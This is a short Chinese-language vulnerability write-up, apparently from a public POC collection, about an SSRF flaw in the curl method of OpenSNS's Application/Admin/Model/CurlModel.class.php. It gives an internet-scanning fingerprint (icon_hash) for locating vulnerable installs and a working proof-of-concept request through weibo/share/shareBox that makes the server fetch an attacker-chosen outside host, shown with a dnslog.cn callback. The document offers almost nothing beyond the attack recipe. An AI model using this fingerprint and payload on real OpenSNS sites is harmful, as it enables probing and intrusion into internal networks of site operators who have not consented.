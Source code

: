 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235733223.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634372194099-77c5fe31-6860-4f22-b7d8-4c7d7c5e1ecb.png)

构造POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634372283531-85b34ccd-7259-4164-bb67-1806e32fa6ec.png)